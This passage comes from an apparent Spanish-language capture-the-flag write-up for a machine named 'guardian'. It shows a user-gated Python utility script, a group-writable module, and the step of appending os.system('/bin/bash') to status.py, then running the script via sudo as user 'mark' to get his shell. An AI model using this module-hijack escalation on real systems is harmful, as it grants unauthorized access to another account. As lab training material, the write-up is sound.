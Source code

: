 ```python
        db.backup_database()
    elif args.action == "zip-attachments":
        if user != "mark":
            print("Access denied.")
            sys.exit(1)
        attachments.zip_attachments()
    elif args.action == "collect-logs":
        if user != "mark":
            print("Access denied.")
            sys.exit(1)
        logs.collect_logs()
    elif args.action == "system-status":
        status.system_status()
    else:
        print("Unknown action.")

if __name__ == "__main__":
    main()
```

Por lo que estamos viendo la unica funcion que no se restringe por el usuario `mark` es el `system-status`, si investigamos un poco podremos ver los siguiente permisos:

```
-rwxrwx--- 1 mark admins 253 Apr 26 09:45 /opt/scripts/utilities/utils/status.py
```

Viendo esto, tambien sabemos que pertenecemos al grupo `admins`:

```shell
id
```

Info:

```
uid=1000(jamil) gid=1000(jamil) groups=1000(jamil),1002(admins)
```

Por lo que podremos editar el modulo, vamos añadir algo asi:

```python
...............................<RESTO DE CODIGO>...................................
os.system("/bin/bash")
```

Lo guardamos y ejecutamos el script de esta forma:

```shell
sudo -u mark /opt/scripts/utilities/utilities.py system-status
```

Info:

```
mark@guardian:/opt/scripts/utilities/output$ whoami
mark
```
